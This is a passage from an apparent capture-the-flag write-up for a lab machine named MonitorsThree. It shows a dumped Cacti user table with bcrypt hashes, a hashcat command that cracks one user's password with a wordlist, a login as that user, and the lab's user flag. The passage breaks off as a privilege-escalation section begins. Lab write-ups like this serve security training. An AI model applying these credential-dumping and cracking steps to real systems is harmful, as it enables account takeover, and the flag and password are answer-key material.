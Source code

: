 ```sql
|  3 | guest    | $2y$10$SO8woUvjSFMr1CDo8O3cz.S6uJoqLaTe6/mvIcUuXzKsATo77nLHu |     0 | Guest Account | guest@monitorsthree.htb  |                      |                 | on        | on        | on           |                |          1 |             1 |            1 |            1 |                      1 |         |         -1 |        -1 | -1               |        |               0 |        0 |  3774379591 |
|  4 | marcus   | $2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK |     0 | Marcus        | marcus@monitorsthree.htb |                      | on              | on        | on        | on           | on             |          1 |             1 |            1 |            1 |                      1 | on      |         -1 |        -1 |                  |        |               0 |        0 |  1677427318 |
+----+----------+--------------------------------------------------------------+-------+---------------+--------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
```

In there we see 3 hashes for 3 users, admin, guest and `marcus`:

```
admin:$2y$10$tjPSsSP6UovL3OTNeam4Oe24TSRuSRRApmqf5vPinSer3mDuyG90G
guest:$2y$10$SO8woUvjSFMr1CDo8O3cz.S6uJoqLaTe6/mvIcUuXzKsATo77nLHu
marcus:$2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK
```

and we can try to crack them using hashcat

```bash
hashcat -m 3200 monitors_hashes /usr/share/wordlists/rockyou.txt.gz

$2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK:12345678910
```

so we now have credentials for the user `marcus`: **marcus - 12345678910** and we can use them to connect as `marcus` and get the user flag:

```bash
www-data@monitorsthree:~/html/cacti/include$ su - marcus
su - marcus
Password: 12345678910

marcus@monitorsthree:~$ ls
ls
user.txt
marcus@monitorsthree:~$ cat user.txt 
cat uer.txt
cat: uer.txt: No such file or directory
marcus@monitorsthree:~$ cat user.txt
cat user.txt
161a6778211e6733d45c439d25d0331a
```
## Privilege escalation

Checking the ports running locally on the machine, we notice port 8200 is 
